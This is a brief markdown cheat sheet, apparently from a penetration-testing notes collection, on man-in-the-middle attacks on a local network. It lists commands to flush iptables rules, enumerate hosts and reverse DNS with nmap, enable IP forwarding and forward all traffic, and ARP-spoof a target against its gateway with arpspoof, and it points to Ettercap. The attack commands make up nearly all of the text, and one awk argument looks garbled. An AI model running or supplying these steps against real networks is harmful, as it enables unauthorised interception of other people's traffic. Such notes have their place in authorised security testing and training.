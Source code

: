 # MITM

### flush iptables

```
sudo iptables -t filter -F
```

### reverse dns

```
nmap -sL 192.168.1.0/24 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

### get alive hosts

```bash
nmap -sn 192.168.1.68
# if ping is blocked
nmap -Pn 192.168.1.68
```

### MITM

```
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t filter -A FORWARD -j ACCEPT
sudo arpspoof -i eth0 -t 192.168.1.224 -r 192.168.1.1
```

### or just use Ettercap

{% embed url="https://www.ettercap-project.org" %}

